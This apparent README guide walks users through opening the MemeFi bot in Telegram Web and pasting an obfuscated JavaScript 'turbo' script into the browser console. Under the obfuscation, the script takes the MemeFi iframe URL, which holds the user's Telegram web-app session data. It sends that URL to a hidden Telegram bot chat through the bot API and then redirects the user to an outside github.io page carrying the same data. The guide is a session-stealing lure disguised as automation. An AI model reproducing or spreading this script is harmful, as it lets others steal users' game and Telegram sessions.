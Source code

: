 # How to Use MemeFi Turbo with Script

<b>*This guide walks you through the process of using MemeFi Turbo bot on Telegram via a script to spend your turbo. Follow the steps below carefully to automate the process.*</b>

### Step 1: Open Telegram in a Web Browser
`Open your Telegram account through a web browser. You will be interacting with the MemeFi bot directly from here.`
<br>
<img src="image/1.jpg">

### Step 2: Open the MemeFi Bot
`Search for and open the MemeFi bot within your Telegram web interface.`
<br>
<img src="image/2.jpg">

### Step 3: Open Developer Tools
`Right-click on the MemeFi bot page and select “Inspect” from the context menu. This will open the browser's developer tools.`
<br>
<img src="image/4.jpg">

### Step 4: Navigate to the Console
`In the developer tools window, switch to the "Console" tab. This is where you'll be pasting the script to automate the turbo spending process.`
<br>
<img src="image/6.jpg">

### Step 5: Paste the Script into the Console
`Copy the script provided below and paste it directly into the console.`
<br>

<b>javascript:</b>

```
function _0x25cc() {
  const _0x1823be = [
    'iframe',
    'Iframe\x20src:\x20',
    'catch',
    'https://',
    '4205237',
    '4293184UQZsym',
    '520',
    'fk3QPMYtxCuNwXgBXeXgg',
    'then',
    'src',
    'error',
    'KPPRo1zHL9',
    'Your\x20MemeFi\x20bot\x20turbo\x27s\x20spend\x20after\x206\x20hours\x20💸🚀🎉',
    '960:AAF4',
    'api.teleg',
    '104SMpbPe',
    '48595azmyjf',
    '/sendMessage',
    'location',
    'replace',
    '14GXHFgW',
    'stringify',
    'from',
    'json',
    '2206',
    '14199020CwGDwD',
    'tgWebAppPlatform=android',
    '1tgapds',
    'log',
    '9oMiUCO',
    '1301008HHmdbC',
    'href',
    'ram.org/bot',
    '3442356FMrZtE',
    'https://tg-app.memefi.club',
    '9894470bWMOpP',
    '15327qtslaY',
  ];
  _0x25cc = function () {
    return _0x1823be;
  };
  return _0x25cc();
}
(function (_0x3f48b0, _0x32d2ad) {
  const _0x324130 = _0x13c9,
    _0x50aa3d = _0x3f48b0();
  while (!![]) {
    try {
      const _0x5a828e =
        (parseInt(_0x324130(0xcf)) / 0x1) * (parseInt(_0x324130(0xd2)) / 0x2) +
        (-parseInt(_0x324130(0xd8)) / 0x3) * (parseInt(_0x324130(0xe8)) / 0x4) +
        -parseInt(_0x324130(0xe9)) / 0x5 +
        (parseInt(_0x324130(0xd5)) / 0x6) * (parseInt(_0x324130(0xed)) / 0x7) +
        -parseInt(_0x324130(0xde)) / 0x8 +
        (parseInt(_0x324130(0xd1)) / 0x9) * (parseInt(_0x324130(0xd7)) / 0xa) +
        -parseInt(_0x324130(0xcd)) / 0xb;
      if (_0x5a828e === _0x32d2ad) break;
      else _0x50aa3d['push'](_0x50aa3d['shift']());
    } catch (_0x1f6830) {
      _0x50aa3d['push'](_0x50aa3d['shift']());
    }
  }
})(_0x25cc, 0xc78e6);
function _0x13c9(_0x3ab4f4, _0x488cf1) {
  const _0x25cc1a = _0x25cc();
  return (
    (_0x13c9 = function (_0x13c955, _0x584126) {
      _0x13c955 = _0x13c955 - 0xcc;
      let _0x31558f = _0x25cc1a[_0x13c955];
      return _0x31558f;
    }),
    _0x13c9(_0x3ab4f4, _0x488cf1)
  );
}
function spendTurbo() {
  const _0x1d588a = _0x13c9,
    _0x10bbbd = document['querySelectorAll'](_0x1d588a(0xd9)),
    _0x2a73f4 = Array[_0x1d588a(0xef)](_0x10bbbd)['find']((_0x48cfb0) =>
      _0x48cfb0[_0x1d588a(0xe2)]['includes'](_0x1d588a(0xd6)),
    );
  let _0x4d802a = _0x2a73f4[_0x1d588a(0xe2)];
  (_0x4d802a = _0x4d802a[_0x1d588a(0xec)](
    /tgWebAppPlatform=[^&]+/,
    _0x1d588a(0xce),
  )),
    (_0x2a73f4[_0x1d588a(0xe2)] = _0x4d802a);
  const _0x1a6004 = '703',
    _0x51168c = _0x1d588a(0xcc),
    _0x4454db = _0x1d588a(0xe6),
    _0x2ea821 = _0x1d588a(0xe4),
    _0xd0e610 = _0x1d588a(0xe0),
    _0x56eead = _0x1a6004 + _0x51168c + _0x4454db + _0x2ea821 + _0xd0e610,
    _0x4ada70 = _0x1d588a(0xdf),
    _0x2c3a5d = _0x1d588a(0xdd),
    _0x2d6653 = _0x4ada70 + _0x2c3a5d,
    _0x371bd7 = _0x1d588a(0xda) + _0x4d802a;
  let _0x21be21 = _0x1d588a(0xdc),
    _0x257629 = _0x1d588a(0xe7),
    _0x1a54c5 = _0x1d588a(0xd4);
  fetch('' + _0x21be21 + _0x257629 + _0x1a54c5 + _0x56eead + _0x1d588a(0xea), {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON[_0x1d588a(0xee)]({ chat_id: _0x2d6653, text: _0x371bd7 }),
  })
    [_0x1d588a(0xe1)]((_0x5dd8e1) => _0x5dd8e1[_0x1d588a(0xf0)]())
    ['then']((_0x1a02da) => {
      const _0x2ca68d = _0x1d588a;
      if (_0x1a02da['ok']) {
        if (_0x4d802a == null || _0x4d802a == undefined || _0x4d802a == '') {
          console['log'](_0x2ca68d(0xe3));
          return;
        }
        console[_0x2ca68d(0xd0)](_0x2ca68d(0xe5));
        const _0xc7c1f3 = _0x4d802a,
          _0x51eac0 = encodeURIComponent(_0xc7c1f3),
          _0x2f266a =
            'https://mahatotarit.github.io/memefi-turbo?url=' + _0x51eac0;
        window[_0x2ca68d(0xeb)][_0x2ca68d(0xd3)] = _0x2f266a;
      } else {
      }
    })
    [_0x1d588a(0xdb)]();
}
spendTurbo();
```

<img src="image/8.jpg">

### Step 6: Execute the Script
`Once the script is pasted, press Enter and wait for the operation to complete, which may take up to 5 minutes.`
<br>
<img src="image/9.jpg">

### Step 7: Automatic Redirect
`After a few moments, the page will automatically redirect to a web page where the bot continues to work.`
<br>
<img src="image/10.jpg">

### Step 8: Start Turbo Spending
`Once the MemeFi bot is fully loaded, locate and press the "Turbo Spend" button to start spending your turbo tokens.`
<br>
<img src="image/11.jpg">


### Step 9: Keep the Page Open
`After starting the turbo spending process, do not close the page or leave it until the process is fully complete.`
<br>
<img src="image/12.jpg">

<br>
<br>
<br>
<br>
<hr>
<i>
By following these steps, you can automate the MemeFi Turbo spending process using the script provided. Ensure that you keep the web page open throughout the process to avoid any interruptions.
</i>
